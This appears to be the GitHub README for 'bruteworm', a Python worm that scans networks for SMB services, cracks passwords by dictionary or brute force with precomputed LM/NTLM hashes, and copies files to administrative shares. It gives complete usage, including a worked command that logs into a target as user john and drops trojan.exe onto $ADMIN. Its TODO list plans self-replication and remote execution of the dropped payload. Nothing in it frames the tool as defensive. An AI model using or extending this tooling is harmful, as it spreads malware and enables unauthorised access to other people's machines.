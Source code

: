 # bruteworm
A simple worm that uses brute force and dictionary attacks through the network to infect vulnerable machines.

Inspired from the famous [SMB Worm Tool](http://www.securityweek.com/hackers-used-sophisticated-smb-worm-tool-attack-sony).

Currently limited to making connections with SMB directly over TCP (445) and SMB via NetBIOS API (139), but I may add support for more protocols in the future.

### Dependencies
* Python 2.7
* Nmap 6.4

### Features
* Generates LM/NTLM hash lists from dictionary words or variable length permutations of specified alphabets
* Scans for hosts with SMB running (forwards to Nmap) and performs OS detection upon session negotiation
* Copies files from local host to public or administrative shares when correct password found

### Usage
```bash
usage: bruteworm [-h] [-i INPUT] [-o OUTPUT] [-d DICTIONARY DICTIONARY] [-b]
                 [-c COUNT] [-n MIN] [-x MAX] [-a ALPHABET] [-t TARGET]
                 [-p PORT] [-u USER] [-s SHARE] [-v]
                 {build,scan,infect}

positional arguments:
  {build,scan,infect}   interaction with specified hosts/subnet victims

optional arguments:
  -h, --help                            show this help message and exit
  -i INPUT, --input INPUT               source file path
  -o OUTPUT, --output OUTPUT            destination file path
  -d FILE PATH, --dictionary HASH PATH  attack of either type pass|hash + dictionary file path
  -b, --bruteforce                      use brute force for password guessing
  -c COUNT, --count COUNT               number of hashes to generate
  -n MIN, --min MIN                     minimum number characters in password
  -x MAX, --max MAX                     maximum number characters in password
  -a ALPHABET, --alphabet ALPHABET      alphabet of allowed characters without spaces
  -t TARGET, --target TARGET            target hosts/subnet e.g. 192.168.2.10, 192.168.2.0/24
  -p PORT, --port PORT                  target port e.g. 139
  -u USER, --user USER                  target username to use for authentication
  -s SHARE, --share SHARE               target share name to drop malware
  -v, --verbosity                       console has 3 verbosity levels
```

### Examples
Generate precomputed hashes from a dictionary of words:
```bash
python bruteworm build -vvv -i /path/to/dictionary -o /save/to/hashes
```
Generate precomputed hashes for all possible passwords of 3-6 digits with lower case characters and digits:
```bash
python bruteworm build -vvv -i -n3 -x6 -o /save/to/hashes -a abcdefghijklmnopqrstuvwxyz0123456789
```
Authenticate as user john at host 192.168.1.135 using a password dictionary and copy trojan.exe to share $ADMIN:
```bash
python bruteworm infect -vvv -t 192.168.1.135 -d pass /path/to/dictionary -i trojan.exe -o trojan.exe -u john -s $ADMIN
```

### TODOs
* Make worm standalone so it can replicate itself more easily - as opposed to only acting as a dropper
* Add support for remotely executing copied files using scheduled tasks or other API
* Add support for user enumeration
